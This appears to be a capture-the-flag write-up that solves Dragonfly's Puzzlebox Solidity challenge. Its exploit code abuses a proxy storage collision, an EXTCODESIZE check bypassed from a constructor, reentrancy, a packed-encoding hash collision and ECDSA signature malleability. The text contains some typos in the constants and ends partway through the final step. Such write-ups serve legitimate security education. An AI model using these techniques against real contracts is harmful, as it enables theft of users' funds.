



# Dragonfly CTF Walkthrough: Puzzlebox.sol

Hello anon, welcome to 👦🏻👦🏻.eth's walkthrough of [Dragonfly's recent CTF](https://ctf.dragonfly.xyz), held May 6-8 2023, featuring hackable quirks of Solidity and the EVM at large.

This walkthrough details the process of deciphering and auditing Puzzlebox.sol, a Solidity puzzlebox containing metaversal secrets so powerful they can be leveraged to save the internet from exploitation by bad actors.

#### Spoiler alert: I didn't win any of the prizes offered by Dragonfly to those who completed the CTF quickly and efficiently. The lucky few who did, were awarded Milady Maker NFTs which are currently selling for a floor of 3.8 ETH or just over $7000! Pretty damn awesome prizes, if you ask me. Next time I'll allot more time to the CTF rather than let that pesky 'personal life' stuff get in the way :P

## Getting the lay of the land

First things first! I started with reading the documentation to get an understanding of the smart contract architecture and operation of the Puzzlebox file on a high level.

Dragonfly provides a convenient [Foundry git repo](https://github.com/dragonfly-xyz/puzzlebox-ctf) with a nifty diagram of the contract structure including information about the way that the CTF is scored.

Some first impressions: the CTF is centered around a proxy scheme, something very familiar to smart contract security researchers like me and you, anon. There are 3 contracts of interest: PuzzleBox contract provides the logic implementation, the PuzzleBoxProxy contract serves as proxy that interfaces with PuzzleBox, and the PuzzleBoxFactory provides functions to deploy and initialize state in order to simulate constructor functions which cannot be used in proxy schemes.

The PuzzleBoxSolution contract provides an unimplemented function called ```solve()``` where our CTF solutions should be provided. This function gets called by a shell contract to complete the CTF's many challenges, record how many solutions we come up with, and issue us a score based on correct solutions and their level of gas efficiency.

## Priming the solve() call with important variables

Now that we understand the CTF uses a proxy pattern and that we must provide our solution to the CTF via PuzzleBoxSolution's ```solve()``` function, we can start priming a few important memory variables for use. For more familiar nomenclature, I renamed the PuzzleBox instance ```puzzle``` provided to ```solve()```:

```address proxy = address(puzzle);```

We'll also need to locate the PuzzleBoxFactory and use it to find the implementation address. The factory is created and stored in the PuzzleBox.t.sol test file which is the one used to set the onchain environment and then invoke our PuzzleBoxSolution's ```solve()``` function. To grab it, I just wrote some code to poke and prod around the test contract:

```address impl = address(_factory.logic());```

Now when we run ```forge test -vvvv``` we can see both the PuzzleBoxFactory address and the logic implementation in the stack traces. Returning to PuzzleBoxSolution, I hardcoded the factory address and used its public method to grab the impl.

```
address factory = 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f;
address impl = PuzzleBoxFactory(factory).logic();
```

## First places to look in the codebase

Right off the bat, common proxy pattern vulnerabilities come to mind as a great place to start looking for ways to hack the Puzzlebox. These include privilege escalation via uninitialized logic implementation contract, the famed Exploding Kittens selfdestruct vulnerability, storage collisions between the logic and proxy contracts, and careless implementations of the delegatecall opcode.

##### To avoid adding unnecessary extra gas costs to our solve() function, I included all code for poking and prodding that doesn't actively contribute to hacking the CTF in the test_win() function within PuzzleBox.t.sol. This lets us keep an eye on important variables and answer our questions without detracting from our score!

Let's start by checking for initialization status on the proxy:

```
bool init = _puzzle.isInitialized();
```

OK, 0x01 is returned so nothing's out of place there. Let's check the impl contract:

First, ```$ cast sig 'isInitialized()'``` will give us the bytes4 function selector, 0x392e53cd, that we will need to provide in calldata.

```
(bool a, bytes memory b) = impl.call(hex'392e53cd');
```

0x00! That's some valuable information to keep in mind for later! Uninitialized logic implementations can be vulnerable to privilege escalation or Exploding Kittens, so that may be an avenue to explore.

## Working backwards

Knowing that the Dragonfly CTF is centered around opening a puzzlebox, it seems safe to guess that the PuzzleBox contract's ```open()``` function serves as the final step of completing the challenge. From there, we can work backwards with suspected avenues of attack.

In ```open()```, we see a comment that confirms my suspicions:

```// Congrats ;-)```

So let's identify the requirements for calling ```open()``` and earn that congratulatory comment.

Strikingly, there are three modifier functions attached: ```maxBalance(0)```, ```maxDripCount(0)```, and ```minTotalDripped(10)``` A quick CTRL+F takes us to these functions where, unsurprisingly, their logic reflects their names.

```maxBalance(0)``` tells us we must find a way to drain the contract's Ether balance entirely, since even ```unchecked``` underflow would not satisfy ```address(this).balance <= 0```

```maxDripCount(0)``` appears to refer to the ```drip()``` function which increments the uint256 variable in storage named ```dripCount``` We'll either need to prevent the increment from happening or decrement ```dripCount``` using the internal ```_burnDrip()``` function.

```minTotalDripped(10)``` also appears to refer to the ```drip()``` function, because it increments yet another storage uint named ```lastDripId``` This storage uint must however somehow reach 10 while satisfying ```maxDripCount(0)```

If we can satisfy those three modifiers and provide a valid ```bytes calldata adminSig``` that resolves to the admin address, presumably via some sort of replay or malleability attack, we win!

Now we have a destination in mind, with some functions we know we'll have to exploit. At this point, I decided to go back to probing the storage layout since we had already identified one potential issue that may lead us in the right direction without having to toil line-by-line.

## Continuing the common proxy vulnerabilities rabbithole

As we already know, proxy contracts can easily give rise to storage collisions without careful attention. To continue examining the integrity of the proxy architecture, storage layout should be enumerated. Since the impl contract is uninitialized, we should call initialize with the same parameters as the proxy contract so we can compare them as apples to apples:

```
    // initialize impl to then read impl's storage layout
    address payable[] memory friends = new address payable[](2);
    uint256[] memory friendsCutBps = new uint256[](friends.length);
    friends[0] = payable(0x416e59DaCfDb5D457304115bBFb9089531D873B7);
    friends[1] = payable(0xC817dD2a5daA8f790677e399170c92AabD044b57);
    friendsCutBps[0] = 0.015e4;
    friendsCutBps[1] = 0.0075e4;
    PuzzleBox(impl).initialize{value: 1337}(
        // initialDripFee
        100,
        friends,
        friendsCutBps,
        // adminSigNonce
        0xc8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8,
        // adminSig
        (
            hex"c8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8"
            hex"625cb970c2768fefafc3512a3ad9764560b330dcafe02714654fe48dd069b6df"
            hex"1c"
        )
    );
```

In running the code above, two things stand out. 

First, the admin's signature 
```0xc8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8625cb970c2768fefafc3512a3ad9764560b330dcafe02714654fe48dd069b6df1c```
and nonce are accepted without issue as we replay it to the impl contract. This implies that the domain separator used to generate the signature _does not contain the contract address_ as an entropy seed to guard against cross-contract signature replay. Another thing worth keeping in mind as we move forward!

Second, a discerning eye will notice that the nonce 
```0xc8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8```
provided to the initialize function is identical to the ```bytes32 r``` value of ```adminSig``` Non-incrementing nonces aren't necessarily a vulnerability, but reusing the r value as a nonce could pose some problems in certain scenarios so we'll also keep tabs on that.

## The storage layouts 'diff' approach

Now that we've initialized the impl contract using the exact same calldata as the admin used to init the proxy contract, we can compare the two layouts like a 'diff' to identify any colliding slots and variables.

To do so, I just iterated over the first n slots of both contracts while calling Foundry's awesome vm.load() cheat code and observed the results in the resulting stack traces. I chose ```n == 10``` since the PuzzleBox contract has 10 declared storage items and the PuzzleBoxProxy contract has 2 declared storage items (the ```PuzzleBox private immutable _logic``` is not actually kept in storage since it is immutable). Since mapping indices are kept empty, ~10 iterations should be enough to get a good insight into the storage slot layout.

```
// proxy storage layout
for (uint i; i < 10; ++i) {
    bytes32 implStorageVal = vm.load(address(_puzzle), bytes32(i));
}

// impl storage layout
for (uint i; i < 10; ++i) {
    bytes32 implStorageVal = vm.load(impl, bytes32(i));
}
```

Here's the output:


From this we can decipher the following intended layout:
Slot 0 (packed): ```bool isInitialized``` with ```address admin```
Slot 1: ```address operator```
Slot 2: ```bytes32 friendshiphash```
Slot 3: ```uint256 lastdripid```
Slot 4: ```uint256 dripcount```
Slot 5: ```uint256 dripfee```
Slot 6: ```uint256 leakcount```
Slot 7: ```mapping isValidDripId```
Slot 8: ```mapping signatureConsumedAt```

## 🚩🚩 Red flag alert 🚩🚩

The storage layout between both contracts is identical! The logic implementation should not have the same storage layout as the proxy because the proxy has a couple additional storage variables. 

Generally, a logic implementation used as the backend for a proxy includes a safety offset implemented in storage layout. _This works similarly to Solidity's scratch-space memory allocation for memory offsets 0x00 to 0x39 a reserved location used for calculating hashes without colliding with other memory pointers that start at offset 0x40._

We've found storage collision vulnerabilities! 

The first is benign: namely that PuzzleBoxProxy's slot 0 containing ```isFunctionLocked``` mapping overlaps PuzzleBox's packed variables, ```bool isInitialized``` bool and ```address admin```. Since mappings are dynamic, their slot indices are only used to find an unreachable starting slot via hashing. This means we can't abuse the first collision.

The second, however, is not benign: PuzzleBoxProxy's slot 1 containing ```address owner``` overlaps PuzzleBox's ```address owner```. This means that although the proxy's owner address is set in its constructor, it can actually be overwritten by setting the operator variable using ```PuzzleBox.operate()```

So let's do it!

##### Quick takeaway: if a safety offset in storage had been used or ```owner``` had been marked immutable or if the logic implementation had been initialized, there would be no hack available.

## Become operator

Becoming operator provides solid leverage because it gives us control over the ```operation()``` modifier function that gates the ```drip()``` function which we know we'll have to exploit in some way to call ```open()``` The only function that provides a way to change the value of ```operator``` (and thereby ```owner```) is ```operate()```

One function modifier stands in our way however: ```noContractCaller```, which checks ```msg.sender.code.length == 0``` a la the EXTCODESIZE opcode. Here, our knowledge of contract deployment comes into play!

A smart contract's EXTCODESIZE will actually return 0 throughout the entirety of its deployment transaction regardless of the contract's bytecode. This means that so long as we call ```operate()``` during the constructor of a contract deployment, ```noContractCaller``` will not give us any trouble :D

In doing this, we also get to drain the PuzzleBox's l33t balance of 1337! But something tells me that isn't going to be quite enough to satisfy the ```maxBalance(0)``` modifier just yet.

WRT implementation, we'll have to write a new contract instance and deploy it within ```solve()``` by doing something like this:

```
contract EoaSpoof {

    PuzzleBox puzzle;
    
    constructor(PuzzleBox _puzzle) {
        puzzle = _puzzle;
        address payable proxy = payable(address(_puzzle));

        (bool a, bytes memory b) = proxy.call(hex'8da5cb5b'); // check PuzzleBoxProxy.owner storage slot
        _puzzle.operate(); // become operator / owner
        (bool c, bytes memory d) = proxy.call(hex'8da5cb5b'); // prove PuzzleBoxProxy.owner == PuzzleBox.operator
    }
}
```

Using a ```new EoaSpoof()``` we can now ascertain that the storage slot housing the operator / owner variable is set to our PuzzleBoxSolution contract. Our ```solve()``` function looks like this so far:

```
function solve(PuzzleBox puzzle) external {
    // How close can you get to opening the box?
    
    address proxy = address(puzzle);
    address factory = 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f;
    address impl = PuzzleBoxFactory(factory).logic();

    EoaSpoof eoaSpoof = new EoaSpoof(puzzle);
}
```

## Now what?

Now that we've assumed the role of operator, it's time to have a look at the ```drip()``` function since we have gained access to it. It must be called with at least ```dripFee``` (== 100 wei) ETH; and it immediately any excess ETH back to the caller. Did someone say reentrancy??

Yup, Checks -> Effects -> Interactions completely went out the window here, so we can reenter using the external call that refunds ETH. This is extremely useful to our purposes, since we want to emerge from this function with a ```minTotalDripped(10)``` while the function is actually intended to double ```dripFee``` with each call. Without the reentrancy vulnerability, our newly acquired 1337 wei would not be nearly enough.

But wait! This ```drip()``` function possesses the ```operation``` modifier which resets the value of ```operator``` at the end of execution:

```
modifier operation() {
    require(msg.sender == operator, 'only current operator');
    _;
    operator = payable(address(uint160(0xDEAD)));
}
```

So our solution needs to complete its reentrancy before reaching the final line of ```operation()``` when we lose operator status, meaning EoaSpoof must be the contract to perform the reentrance with its newly acquired 1337 wei. Whew!

## Implementing EoaSpoof's reentrant fallback function

Since reentrancy is a feature of the EVM's fallback functionality, we add a fallback function to EoaSpoof:

```
uint256 reentranceCounter;

// fallback accepts drained ETH and exploits reentrancy vulnerability in puzzle's drip()
fallback() external payable {
    reentranceCounter++;

    // reenter 10 times to raise lastDripId to 10
    if (reentranceCounter < 10) {
        puzzle.drip{ value: 101 }();
    }
}
```

This satisfies the first line of ```drip()``` and causes it to return any ETH in excess of ```dripFee```, in this case a single Wei (101 >= 100). Also note the introduction of an EoaSpoof storage uint ```reentranceCounter``` which will ensure that reentrancy concludes with ```dripCount == 10```

Then all that's left is to create a function for PuzzleBoxSolution to call which starts the process:

```
function reenterDrip() external {
    // call drip and initiate reentrancy
    puzzle.drip{ value: 101 }();
}
```

and invoke it within ```solve()``` right after deploying the EoaSpoof contract:

```
EoaSpoof eoaSpoof = new EoaSpoof(puzzle);
eoaSpoof.reenterDrip();
```

Just like that, we've satisfied the ```minTotalDripped``` modifier that gates ```open()``` without running out of ETH. But in doing so, we've also broken the ```maxDripCount(0)``` and the ```maxBalance(0)```.

## Decrementing lastDripId

We're now in a position where we need to find ways to reduce both ```lastDripId``` and the proxy contract's ETH balance to 0. As we noticed before, there is an internal function called ```_burnDrip()``` so I started looking for places where it is invoked.

One of the declared modifiers, ```burnDripId(uint256 dripId)``` performs this function for us and is scattered throughout the codebase. For example, ```spread()``` burns dripId 3, ```zip()``` burns dripId 1, ```torch()``` burns dripId 5, and ```creep()``` burns dripId 10.'

Of those, ```torch()``` was the most interesting function which caught my eye because it actually invokes the raw internal ```_burnDrip()``` function in a loop that iterates over a provided array. Perfect!

I started by calling torch with the entire array of 10 dripIds that we want to eliminate, named in a nod to one of my favorite taco places in Texas:

```
uint256[] memory torchees = new uint[](10);

torchees[0] = 1; 
torchees[1] = 2;
torchees[2] = 3;
torchees[3] = 4;
torchees[4] = 5;
torchees[5] = 6;
torchees[6] = 7;
torchees[7] = 8;
torchees[8] = 9;
torchees[9] = 10;

puzzle.torch(abi.encode(torchees));
```

Regrettably, this call fails because the torch ```'function is locked'```. This is confirmed by a call to the proxy contract using the bytes4 function selector for the torch function obtained by Foundry's ```$ cast sig```

```$ cast sig 'torch(bytes calldata encodedDripIds)'```

After grabbing that function selector (0x925facb1), we provide it to the public mapping:

```PuzzleBoxProxy(puzzle).isFunctionLocked(hex'925facb1');```

The 0x01 returned by this call confirms that it is indeed locked. Thankfully, the function that lets us unlock it only requires the caller to be ```owner``` which we already are since becoming the operator.

Returning to the EoaSpoof contract's constructor, just insert the call to unlock ```torch()``` at the end:

```
constructor(PuzzleBox _puzzle) {
    puzzle = _puzzle;
    address payable proxy = payable(address(_puzzle));

    (bool a, bytes memory b) = proxy.call(hex'8da5cb5b'); // check PuzzleBoxProxy.owner storage slot
    _puzzle.operate(); // become operator / owner
    (bool c, bytes memory d) = proxy.call(hex'8da5cb5b'); // prove PuzzleBoxProxy.owner == PuzzleBox.operator
    
    // now that we are operator/owner we can unlock torch()
    PuzzleBoxProxy(proxy).lock(PuzzleBox.torch.selector, false);
}
```

Success, yet going back to call the now-unlocked function still causes a revert! A closer look at the ```torch()``` implementation informs us why: the ```maxCallDataSize(300)``` modifier. Since there are a bunch of other functions in the CTF that result in ```burnDripId()``` being called on specific ```dripIds```, let's subtract those ids from the array in the expectation of calling those functions directly later on. This leaves us with the following array:

```
uint256[] memory torchees = new uint256[](6);
        torchees[0] = 2; 
        torchees[1] = 4;
        torchees[2] = 6;
        torchees[3] = 7;
        torchees[4] = 8;
        torchees[5] = 9;
```

Even when calling this smaller array, ```torch()``` still reverts and complains about calldatasize: we've slimmed it down to 320 bytes but need to somehow get it under 300.

## This is where I ran out of time

The CTF came at a very busy time for me at the National Symphony Orchestra so I was only able to hack on it for the last 12 hours of the CTF on the final day. But I found a good amount of bugs in that short time frame and am pretty confident I'd have been able to solve the entire CTF given more hours. Lucky for you, I've since looked at solutions and learned a few tricks that should both speed up my process and get you the hacks you're lusting for :D

## We do a little calldata encoding wizardry

Turns out the key to getting past the ```maxCallDataSize(300)``` modifier is to use an uncommon but EVM-recognizable compact calldata encoding scheme called 'Non-standard Packed Mode'. To accomplish that, you can manually construct compressed calldata by providing the function selector, the offset to the start of the array, the length of the array, and then the data of the array itself. All these items must be encoded using ```abi.encodePacked()``` to avoid empty bytes added by the padding behavior of the usual```abi.encode```

If we use normal calldata encoding via ```abi.encode```, the total bytesize of our payload grows to 320 bytes and causes a revert. Instead, with a clever calldata optimization trick, we are able to convince the decoder to reread a chunk of calldata that saves us 31 bytes! How, you ask? Let's work backwards.

Here's the final calldata of 289 byte length that will pass the ```maxCallDataSize(300)``` modifier and still have the decoder correctly parse the uint array of ids we want to torch:



##### Take note of the extra 0x00 byte hanging off the edge of the above calldata's first line, I'll explain it in a moment.

The above calldata can be 'manually' constructed using Solidity like this (in ```solve()```):

```
(bool r,) = proxy.call(abi.encodePacked(
    puzzle.torch.selector, 
    uint256(0x01),
    false,
    abi.encode(torchees)
));

require(r);
```

As you can see in the above code snippet, we've taken fine-grained control over the calldata. By providing two parameters different from what would be created using the usual ```abi.encode``` we goad the decoder into extracting both the offset pointer and the total length of all eight subsequent 32 byte words from just the first 33 bytes of calldata!

## TL;DR- just explain how the calldata is decoded already!

Here's the flow of the decoder in its entirety:

1. Read the bytes4 function selector: ```puzzle.torch.selector```
2. Read the first 32 bytes as the calldata offset pointer to the start of the arguments: ```uint256(0x01)```
3. Jump to the calldata offset pointer that was just read (ie starting after the 1st 0x00 byte) and read to obtain the length of arguments. Since 31 bytes of the first word are reread with a single byte (```bool false```) tacked on at the end, this results in 0x100 which is equal to arguments totaling eight 32 byte words
4. Continue to the next 32 byte word, the second line in the image above, to read 0x20 which is the calldata offset pointer for the torchees array
5. Jump to the the calldata offset pointer that was just read (ie the next 32 byte word) and read to obtain the length of the torchees array: 0x06
6. Continue to the next 32 byte word, which is the value of the first element within the torchees array: 0x02
7. Continue to the next 32 byte word, which is the value of the second element within the torchees array: 0x04
8. Continue to the next 32 byte word, which is the value of the third element within the torchees array: 0x06
9. Continue to the next 32 byte word, which is the value of the fourth element within the torchees array: 0x07
10. Continue to the next 32 byte word, which is the value of the fifth element within the torchees array: 0x08
11. Continue to the next 32 byte word, which is the value of the sixth and final element within the torchees array: 0x09

In short, by reusing 31 of the payload's first 33 bytes in step 3 to obtain the offset as well as the total argument length, we save enough ```CALLDATASIZE``` to pass the modifier on ```torch()```

##### Huge thanks to Lawrence Forman [@merklejerk on Twitter](https://twitter.com/merklejerk) who took the time to personally bolster my understanding of this challenge

## Burning the rest of the drips 

Now that we're left with only the three ```dripIds``` (1, 3, 10) that can be burned using ```zip()```, ```spread()```, and ```creep()```, that's pretty clearly our next course of action. We'll by putting a call to ```zip()``` in our solve function:

```puzzle.zip()```

Alas, we're met with an 'OutOfGas' revert, caused by the gas constrained call to ```leak()```. However, looking at the implementation of ```leak()``` below:

```
function leak()
        external
    {
        unchecked {
            payable(address(uint160(address(this)) + uint160(++leakCount))).transfer(1);
        }
    }
```

a state-warming gas optimization can be performed! The EVM charges drastically higher gas costs when manipulating account balance state on 'cold' addresses than for subsequent changes to previously accessed 'warm' addresses within the same transaction. This means we just need to warm up the state on the address that will receive the leaked wei when ```zip()``` is called. Let's do so by adding another function that warms up state and then cleans up our EoaSpoof contract with selfdestruct, as well as an if condition block in the EoaSpoof fallback that invokes said function on the final reentry:

```
function destro(address puzl, address solution) external {
    payable(address(uint160(puzl) + uint160(1))).call{ value:1 }('');
    selfdestruct(payable(solution));
}

// fallback accepts drained ETH and exploits reentrancy vulnerability in puzzle's drip()
fallback() external payable {
    ++reentranceCounter;

    // reenter 10 times to raise lastDripId to 10
    if (reentranceCounter < 10) {
        puzzle.drip{ value: 101 }();
    }

    // on last reentry
    if (reentranceCounter == 10) {            
        ++reentranceCounter;
        
        this.destro(msg.sender, tx.origin);
    }
}
```

## Doh! We forgot about the SLOAD opcode from reading ```++leakCount```!

After making the above changes to the EoaSpoof contract, the call to ```leak()``` still reverts! What gives?! We warmed up state on all the relevant addresses so the gas cost should now be low enough to succeed... Except we forgot about making an SLOAD opcode call on a non-warm storage slot like ```leakCount``` costs a whopping 2100 gas, as opposed to a cheap 100 gas if the slot is warm.

So we need to make a few edits to the above code in order to first warm up the ```leakCount``` storage slot so the call to ```leak()``` is gas efficient enough to succeed. The most foolproof way to warm up all relevant slots in a function call is simply by performing the function call twice! So in our code changes above we add a call to ```leak()``` directly and then make an adjustment in the low level call's uint160 arithmetic to match the incremented state of ```leakCount```:

```
function destro(address puzl, address solution) external {
    puzzle.leak();
    payable(address(uint160(puzl) + uint160(2))).call{ value: 1 }(''); // uint160(2) == uint160(++1)
    selfdestruct(payable(solution));
}

// fallback accepts drained ETH and exploits reentrancy vulnerability in puzzle's drip()
fallback() external payable {
    ++reentranceCounter;

    // reenter 10 times to raise lastDripId to 10
    if (reentranceCounter < 10) {
        puzzle.drip{ value: 101 }();
    }

    // on last reentry
    if (reentranceCounter == 10) {            
        ++reentranceCounter;
        
        this.destro(msg.sender, tx.origin);
    }
}
```

Now all relevant state slots and addresses are nice and warm, leading to a successful ```zip()``` invocation as well as the ```burnDripId(1)``` modifier!

## Onto the next function that burns dripId 3, spread()

Next up, we'd like to invoke the ```burnDripId(3)``` modifier attached to the ```spread()``` function. Easy enough! All we need to do here is call it using the parameters provided when the Puzzlebox was created and the ```befriend()``` function was used to initialize the ```friendshipHash```. These parameters can be pulled from the ```createPuzzleBox()``` function from the ```PuzzleBoxFactory``` contract.

```
address payable[] memory friends = new address payable[](2);
uint256[] memory friendsCutBps = new uint256[](friends.length);
friends[0] = payable(0x416e59DaCfDb5D457304115bBFb9089531D873B7);
friends[1] = payable(0xC817dD2a5daA8f790677e399170c92AabD044b57);
friendsCutBps[0] = 0.015e4;
friendsCutBps[1] = 0.0075e4;
puzzle.spread(friends, friendsCutBps);
```

One thing to keep in mind is that this ```spread()``` function contains the only usage of ```_transferEth()``` that is not gated by access control, time, or other means. Since we know we'll have to drain the proxy contract of it's ETH balance, it's possible we'll need to revisit the function if the proxy still has a balance when we finish burning all the ```dripIds```

## Burning the last remaining dripId: 10, using creep()

The final function with a ```burnDripId()``` modifier is ```creep()```, which will burn dripId 10 if we manage to call it correctly. The recursivity of this function makes it a bit tricky to pull off, though. We need the following function to return 7:

```
function creepForward()
    external payable
    returns (uint256 count)
{
    unchecked {
        count = 1;
        if (msg.value != 0) {
            try this.creepForward{value: msg.value - 1}() returns (uint256 count_) {
                count += count_;
            } catch {}
        }
    }
}
```

To get ```creep()``` to succeed in stopping after calling ```creepForward()``` 7 times, we should provide a constrained gas limit along the lines of the ```leak()``` function from earlier. This time we'll need to use a lot more gas since the recursive loop calls into ```creepForward()``` externally. 

I'd be lying if I said this went pretty fast for me just via trial and error, though I'm sure quicker hackers than me could identify the exact amount of gas spent by each call and identify the right multiple thereof to complete the call in a way without being ```'too creepy'``` (the error message for too many calls) or, well, not creepy enough. First, I tried some lowballs in the 12_000 range which all failed. So I bumped it up to 24_000, then 50_000, then 80_000, each time observing that the returned uin256 was steadily growing, soon approaching 7. 100_000 was the golden gas amount to use for me based on trial and error. If anyone has suggestions for a faster and more precise way to do this, please [reach out](https://twitter.com/marsterlund) and let me know as I'd love to learn how!

## Revisiting the spread() function to drain the proxy's remaining balance

The CTF finish line (```open()```) is nearly within our grasp! As mentioned previously, I suspected we'd be left with some balance on the proxy contract and suggested the ```spread()``` function would be the most promising candidate for draining the last dregs of wei. So let's revisit our call to ```spread()``` from when we used it to ```burnDripId(3)``` and make some changes to empty the proxy and prime it for our final exploit. Here's the existing code we wrote within ```solve()```:

```
address payable[] memory friends = new address payable[](2);
uint256[] memory friendsCutBps = new uint256[](friends.length);
friends[0] = payable(0x416e59DaCfDb5D457304115bBFb9089531D873B7);
friends[1] = payable(0xC817dD2a5daA8f790677e399170c92AabD044b57);
friendsCutBps[0] = 0.015e4;
friendsCutBps[1] = 0.0075e4;
puzzle.spread(friends, friendsCutBps);
```

And here is the check within ```spread()``` that we need to get past in order to trigger the ```_transferEth()``` function:

```
require(friendshipHash == _getFriendshipHash(friends, friendsCutBps), 'not my friends');
```

Where ```friendshipHash``` is a storage variable of bytes32 type that represents the keccak256 hash of the two concatenated arrays. Knowing the above check is the one we need to satisfy, the next logical step is to examine the internal ```_getFriendshipHash()``` function whose implementation is a single line of code:

```
return keccak256(abi.encodePacked('fees', friends, friendsBps));
```

This is the same function that was used to derive and initialize the ```friendshipHash``` bytes32 in storage. If you've dug deep into the Solidity lang documentation for one reason or another regarding the abi encoding used for inter-contract calls or bytecode encoding, you may recall the section that outlines the differences between ```abi.encode()``` versus ```abi.encodePacked()```. Specifically that there's a security warning raising alarm bells for any developer who might fall into the trap of hashing concatenated dynamic types that are combined using ```abi.encodePacked()```.

The warning emphasizes that ```abi.encodePacked()``` does not behave like vanilla abi encoding in that it doesn't provide padding between data inputs, fully packing each 32 byte word to fit in a whole storage slot. One result of this behavior is that when using packed encoding, hash collisions can be manufactured if dynamic type arrays are positioned consecutively and can be manipulated by the inputs. 

The neighboring two dynamic arrays in calldata allow for an attacker to move the point of separation between them by changing the lengths of the arrays but keeping the same ordering of values. In visual terms, imagine the following output:

```keccak256('abcd')```

If ```abi.encodePacked()``` was used to produce the string being hashed, ```'abcd'```, then by the time the hash is encodePacked there is no way for the EVM to know whether the hash came from which of the four following options:

```abi.encodePacked('a', 'bcd')```

```abi.encodePacked('ab', 'cd')```

```abi.encodePacked('abc', 'd')```

```abi.encodePacked('abcd', '')```

Implementations that allow for neighboring dynamic types to be altered by a malicious user or contract are vulnerable to these ambiguous inputs.

##### From the Solidity Lang docs, here's the warning:



So in order to hack ```spread()``` we shift the two arrays around like the ```abi.encodePacked('ab', 'cd')``` <-> ```abi.encodePacked('a', 'bcd')``` example from earlier. In this case, we convert the second address in the ```friends``` array into a uint256 and turn it into the first member of a new 3 element ```friendsBps``` array. The resulting code block now looks like this:

```
address payable[] memory friends = new address payable[](1);
uint256[] memory friendsCutBps = new uint256[](3);
friends[0] = payable(0x416e59DaCfDb5D457304115bBFb9089531D873B7);
friendsCutBps[0] = uint256(uint160(0xC817dD2a5daA8f790677e399170c92AabD044b57));
friendsCutBps[1] = 150;
friendsCutBps[2] = 75;
puzzle.spread(friends, friendsCutBps);
```

##### Note that since we went back and changed ```spread()``` to empty the proxy contract's balance, our solution for ```creep()``` (which depends on contract balance) is broken as a result! I simply moved the invocation of ```creep``` to happen before the call to ```spread()``` to fix that.

## Everything works! The last step is to open the puzzlebox!

If you participated in [Coinbase's Crypto Bounty Challenge mini-CTF](https://www.coinbase.com/bounty/ethdenver23) for ETHDenver this year, you'll be familiar with ECDSA signatures. Specifically some malleability vulnerabilities and 0 return values from ecrecover().

##### [My solutions and walkthrough to the Coinbase Crypto Bounty CTF are here](https://mirror.xyz/0x65b54A4646369D8ad83CB58A5a6b39F22fcd8cEe/uyisyXLf0vrBv9jhnGMe9fnacE5mAaXkDwg6mP2a9sk)

This ```open()``` function looks just like one of those since it accepts a nonce and a bytes calldata which are checked by ecrecover() in PuzzleBox's declared ```_recoverPackedSignature()``` internal function. In ```_consumeSignature()``` there is a check against a storage mapping of consumed signatures, each storing the block number from when the signature was used, so we can't just replay the original signature.

The assembly block in ```_recoverPackedSignature()``` is sound, so we can't move the domain hash, r, s, or v ECDSA signature parameters around either. The ecrecover()'s return value is checked against the ```address admin``` in storage so we also can't force a 0 return value using an invalid recovery id (v) parameter to then compare it to a zeroed out admin address.

Nope, this one is an ECDSA signature malleability hack with heavier cryptographic focus. This hack is one that arises out of the symmetrical nature of the SECP256K1 elliptical curve: a property that results in two valid mathematical signatures. Essentially, the SECP256K1 curve looks like this:



Since it is symmetric along the X axis, there are two points on the curve that resolve the ecrecover function to the same originating signer. These possess the same ECDSA r values, as well as the same z hash which in this case is renamed to ```nonce```. What's different is that the ECDSA s value is negative relative to the ECDSA n value- imagine it being flipped across the x axis. 

This works like two's complement with regards to overflow and underflow vulnerabilities; in computation, negative numbers actually are equidistant from '0' even though they are measured by the distance from the maximum value of a type. So, to 'flip' the s value to negative, we must "two's complement" it against SECP251K's N constant, which for sufficient/maximum security in a 256 bit type maximum environment is an extraordinarily large prime number. In short, we should subtract the original ```adminSig``` s value from the constant SECP251K.N like so:

```
uint256 SECP256N = uint256(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141); // grab secpk251.n cryptographic constant from google lol
uint256 negativeS = SECP256KN- uint256(0x625cb970c2768fefafc3512a3ad9764560b330dcafe02714654fe48dd069b6df); // secpk251n - original signature's s value
```

